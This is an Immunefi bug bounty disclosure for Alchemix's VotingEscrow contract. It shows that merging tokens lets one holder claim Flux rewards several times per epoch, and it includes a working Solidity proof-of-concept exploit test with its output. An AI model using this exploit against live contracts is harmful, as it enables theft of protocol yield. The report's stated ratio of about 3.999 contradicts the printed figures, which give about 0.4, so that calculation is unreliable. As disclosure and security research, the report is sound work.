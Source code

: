 
# Merging tokens allows multiple Flux accruals within an epoch

Submitted on Mon May 20 2024 04:37:06 GMT-0400 (Atlantic Standard Time) by @Holterhus for [Boost | Alchemix](https://immunefi.com/bounty/alchemix-boost/)

Report ID: #31488

Report type: Smart Contract

Report severity: Critical

Target: https://github.com/alchemix-finance/alchemix-v2-dao/blob/main/src/VotingEscrow.sol

Impacts:
- Theft of unclaimed yield

## Description
## Brief/Intro

A token that has claimed Flux in the current epoch can be merged with a token that has not yet claimed Flux. This allows the already claimed token to transfer its Flux and reuse its voting power through the non-voted token. An attacker can exploit this by repeatedly merging voted tokens with fresh, non-claimed tokens to perpetually claim Flux using the same initial voting power. This allows an attacker to accrue unlimited Flux instantly.

## Vulnerability Details

Every token is allowed to accrue Flux once per epoch. The amount of claimable Flux is calculated in the `claimableFlux()` function, which multiplies the current voting power of the token by `fluxPerVeALCX`.

In the `VotingEscrow` contract, the `merge()` function allows a user to combine the voting power of token `from` and token  `to`, with the `from` token ultimately burned while the `to` token continues with the combined voting power. Nothing prevents someone from claiming Flux with the `from` token, transferring its voting power to a fresh `to` token, and claiming Flux again. This will double count the underlying voting power and allow claiming multiple times in an epoch. 

## Impact Details

An attacker can repeat the accrual of their Flux multiple times in an epoch using the same underlying voting power. This allows for an infinite mint of Flux.

## References
See the PoC below.
        
## Proof of concept
## Proof of Concept

I have created the following test file and added it to the `tests/` directory:


```
// SPDX-License-Identifier: GPL-3.0
pragma solidity ^0.8.15;

import "./BaseTest.sol";

contract UnlimitedAccrueFluxBug is BaseTest {

    constructor() {
        setupContracts(block.timestamp);
    }

    uint256 constant NUM_LOOPS = 5;

    function testUnlimitedAccrueFluxBug() public {
        vm.startPrank(admin);

        uint256[] memory tokenIds = new uint256[](NUM_LOOPS);
        for (uint256 i; i < NUM_LOOPS; ++i) {
            if (i == 0) tokenIds[i] = createVeAlcx(admin, TOKEN_100K, MAXTIME, false);
            else tokenIds[i] = createVeAlcx(admin, TOKEN_1, MAXTIME, false);
        }

        uint256 expectedClaimableFlux;
        for (uint256 i; i < NUM_LOOPS; ++i) {
            expectedClaimableFlux += veALCX.claimableFlux(tokenIds[i]);
        }

        for (uint256 i = 1; i < NUM_LOOPS; ++i) {
            uint256 prev = tokenIds[i-1];
            uint256 next = tokenIds[i];

            voter.reset(prev);
            flux.claimFlux(prev, flux.getUnclaimedFlux(prev));
            veALCX.merge(prev, next);
        }

        console.log("Expected claimable FLUX:", expectedClaimableFlux);
        console.log("Actual FLUX claimed:", flux.balanceOf(admin));

        vm.stopPrank();
    }

}
```

Running the command `forge test -vvv --match-test testUnlimitedAccrueFluxBug --rpc-url $ETH_RPC_URL` gives the following result:

```
[PASS] testUnlimitedAccrueFluxBug() (gas: 5019008)
Logs:
  Expected claimable FLUX: 98583512563800063892800
  Actual FLUX claimed: 39432419229826226642800
```


Since `39432419229826226642800 / 98583512563800063892800` is approximately `3.999`, this specific example shows that the Flux from `tokenIds[0]` can be quadruple counted by using 4 fresh token ids. 
